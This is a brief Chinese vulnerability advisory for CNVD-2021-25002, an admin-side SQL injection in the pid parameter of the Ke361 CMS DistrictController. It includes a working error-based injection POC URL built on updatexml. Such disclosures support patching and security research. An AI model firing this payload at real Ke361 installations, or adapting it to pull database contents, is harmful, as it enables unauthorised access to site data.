 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](/assets/PeiQi-Wiki/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232910449.png)

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![img](/assets/PeiQi-Wiki/img/1634142045802-bdf21a65-a663-4f35-afc2-bc3e70d44309.png)

验证POC

```php
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](/assets/PeiQi-Wiki/img/1634142062147-5e1703bb-91c6-44cd-8867-c3409540c2d8.png)



若有收获，就点个赞吧